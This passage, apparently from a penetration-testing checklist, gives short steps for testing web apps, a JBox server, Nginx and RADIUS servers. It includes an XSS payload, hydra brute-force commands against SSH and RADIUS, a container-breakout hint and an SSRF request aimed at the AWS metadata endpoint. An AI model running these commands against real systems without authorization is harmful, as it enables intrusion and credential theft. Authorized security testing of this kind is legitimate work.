 #### **Step 2: Test for Cross-Site Scripting (XSS)**
```html
<script>alert('XSS')</script>
```
- Inject JavaScript payloads in user input fields.

#### **Step 3: Check for API Authentication Bypass**
- Manipulate API tokens using **JWT attack tools**.

---

### **4️⃣ JBox Server Penetration Testing**
#### **Step 1: Check for Open Ports**
```bash
nmap -sV -p22,80,443 <TARGET_IP>
```
#### **Step 2: Exploit SSH Misconfigurations**
```bash
hydra -L users.txt -P passwords.txt ssh://<TARGET_IP>
```
#### **Step 3: Container Breakout**
```bash
docker exec -it container_name /bin/bash
```
- Try escaping into the host machine.

---

### **5️⃣ Nginx Security Testing**
#### **Step 1: Check for Misconfigurations**
```bash
curl -I -X OPTIONS http://<TARGET_IP>
```
#### **Step 2: Exploit SSRF**
```bash
curl "http://target.com/?url=http://169.254.169.254/latest/meta-data/"
```
- Check if you can access internal AWS metadata.

---

### **6️⃣ RADIUS Server Penetration Testing**
#### **Step 1: Enumerate Users**
```bash
nmap --script=radius-username <TARGET_IP>
```
#### **Step 2: Brute-Force RADIUS Authentication**
```bash
hydra -P passwords.txt -t 4 -m 1812 radius://<TARGET_IP>
```

---
